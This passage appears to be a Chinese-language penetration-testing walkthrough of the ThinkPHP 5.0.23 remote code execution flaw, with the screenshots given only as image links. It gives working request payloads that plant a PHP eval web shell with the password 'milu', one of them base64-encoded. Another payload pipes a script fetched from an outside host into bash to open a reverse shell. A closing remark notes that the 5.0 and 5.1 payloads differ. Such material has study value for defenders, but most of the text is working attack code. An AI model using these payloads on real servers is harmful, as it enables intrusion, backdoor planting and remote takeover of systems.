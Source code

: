 先pwd一下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uribSwIWP3w8uLzee8xc9v3emAvuq2DdEW8Q9Yp2GZ6bqicqDmYbxn3US35RtLxncDaqibMN6cvQ8viaQ/640?wx_fmt=png "")  
  
ok知道了,就写  
/var/www/public/这里  
```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo <?php @eval($_POST['milu']); ?>  >>/var/www/public/milu.php
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uribSwIWP3w8uLzee8xc9v3exGkASGDhfJDeomFiaZfbqTO7Eg7nZSsnmEwwCGLazxtdy15AkzibfblA/640?wx_fmt=png "")  
# 如果写入失败,base64一下  
```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echoIDw/cGhwIEBldmFsKCRfUE9TVFsnbWlsdSddKTsgPz4= >>/var/www/public/hushell.php
```  
  
蚁🗡连接就行了,密码是milu  
# 反弹shell  
# 开启web  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uribSwIWP3w8uLzee8xc9v3eacxicMyJ1TFib7pRndSS8liaqOOib0F4I8OkxDLSKEIGnhlIjuk6jiaLiaBA/640?wx_fmt=png "")  
```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=curl http://192.168.233.131/shell.sh | bash
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uribSwIWP3w8uLzee8xc9v3eEGRXWTVxI5HZPl9biap4c3ia1n5zvyPNdjAXUzFchDqIgiaGLrt50rDmg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uribSwIWP3w8uLzee8xc9v3eWc2WsFkOALIiaLq6YXkvwxdpjexiaR9cLliat3CP6SHrIK1cXjW2faWPA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uribSwIWP3w8uLzee8xc9v3eXAonsZVIKPzko5nkCNouHr186mPh3nqZib2o73RZLxibvdHOmgUdEibKA/640?wx_fmt=png "")  
##   
## 上面有个5rce,现在是5.0.23,可能有读者不懂了,麋鹿来解释一下  
## tp 5版本rce有两个版本  
  
ThinkPHP 5.0-5.0.24和ThinkPHP 5.1.0-5.1.30  
  
漏洞触发点和版本的不同，所以payload也不一样,条件也不一样  
  